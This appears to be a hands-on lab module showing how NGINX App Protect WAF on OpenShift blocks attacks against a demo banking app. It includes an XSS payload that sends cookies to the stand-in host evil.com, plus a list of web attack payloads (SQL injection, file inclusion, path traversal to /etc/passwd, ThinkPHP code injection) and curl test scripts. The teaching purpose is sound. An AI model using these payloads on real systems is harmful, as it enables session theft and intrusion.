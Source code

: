 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,texinfo,subs="attributes"]
----
<html>
  <head><title>Request Rejected</title></head>
  <body>
    The requested URL was rejected. Please consult with your administrator.<br><br>
    Your support ID is: 2246109708976899297<br><br>
    <a href='javascript:history.back();'>[Go Back]</a>
  </body>
</html>
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]


Congratulations on securing your application!


=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

Events are logged in the local syslog pod.

In the terminal window, copy the below text and press enter.

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----


Next, let's create an attack and then examine the logs.


We'll use this bash script to create the attack and then display the log.

[source,sh,role=execute]
----
cat << 'EOF' > check_waf.sh
#!/bin/bash

echo "Sending a malicious request to trigger App Protect..."
response=$(curl -sk "http://$nginx_ingress?item='><script>document.location='http://evil.com/steal'+document.cookie</script>")

echo "Full WAF response:"
echo "$response"

support_id=$(echo "$response" | grep -oP 'support ID is: \K[0-9]+')
echo "Captured Support ID: $support_id"

syslog_pod=$(oc get pods --no-headers | grep '^syslog-' | cut -d' ' -f1)
echo "Querying syslog pod $syslog_pod for WAF log entry..."

oc exec -it pod/$syslog_pod -- cat /var/log/messages | \
  grep "$support_id" | \
  sed -n 's/.*json_log="\({.*}\)".*/\1/p' | \
  sed 's/""/"/g' | jq .
EOF
----

Make the script executable and then run it.

[source,sh,role=execute]
----
chmod +x check_waf.sh && ./check_waf.sh
----

After running the `check_waf.sh` script, look at the parsed JSON and verify the following:

- `"id"`: This should match the support ID you received in the curl response.
- `"requestStatus": "blocked"`: Confirms the request was blocked by App Protect.
- `"attackType"`: Look for entries like `"Cross Site Scripting (XSS)"`, showing the attack was correctly classified.
- `"violation.name"`: Confirm detection of signatures such as `"VIOL_ATTACK_SIGNATURE"` or `"VIOL_PARAMETER_VALUE_METACHAR"`.
- `"signature.name"`: Example: `"XSS script tag (Parameter)"` shows the specific rule triggered.
- `"enforcementState.isBlocked": true`: Confirms blocking action was enforced.
- `"observedEntity.value"`: This may show a base64-encoded version of the payload that triggered the violation.


Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in OpenShift and how to use the NGINX App
Protect WAF to protect your applications from attacks.

## Optional Attacks

*Here are some optional attacks you can try*

== Optional Attack Payloads to Trigger App Protect

Use these by appending them to the application URL +
(e.g., `http://$nginx_ingress/`)

*SQL Injection* +
[source,sh,role=execute]
----
?hfsagrs=-1+UNION+SELECT+user,password+FROM+users--
----

*Remote File Include (RFI)* +
[source,sh,role=execute]
----
?hfsagrs=php://filter/resource=http://example.com/shell.txt
----

*Command Execution* +
[source,sh,role=execute]
----
?hfsagrs=/proc/self/environ
----

*HTTP Parser Attack* +
[source,sh,role=execute]
----
?XDEBUG_SESSION_START=phpstorm
----

*Path Traversal (Predictable Resource Location)* +
[source,sh,role=execute]
----
/lua/login.lua?referer=google.com/&hfsagrs=../../../../../../../../etc/passwd
----

*Cross-Site Scripting (XSS)* +
[source,sh,role=execute]
----
/lua/login.lua?referer=google.com/&hfsagrs="onmouseover=alert('XSS')"
----

*Information Leakage Probe* +
[source,sh,role=execute]
----
/lua/login.lua?referer=google.com/&hfsagrs=efw
----

*Forced Browsing (Parser Attack)* +
[source,sh,role=execute]
----
/dana-na/auth/url_default/welcome.cgi
----

*ThinkPHP Code Injection* +
[source,sh,role=execute]
----
/index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP
----

*Header-based XSS (via Cookie)* +
[source,sh,role=execute]
----
Cookie: hfsagrs='"><script>alert("XSS")</script>'
----




This bash script has a few more.

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
cat << 'EOF' > waf_test.sh
#!/bin/bash

echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=\$(oc get service my-nginx-ingress -n nginx-ingress | awk 'NR==2{print \$4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://\$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"
curl -k "http://\$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://\$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"
curl -k "http://\$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://\$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"
curl -k "http://\$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://\$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"
curl -k "http://\$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://\$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"
curl -k "http://\$EXTERNAL_IP/%25%25252541PPDATA%25"

EOF
----

[source,sh,role=execute]
----
chmox +x waf_test.sh && ./waf_test.sh
----


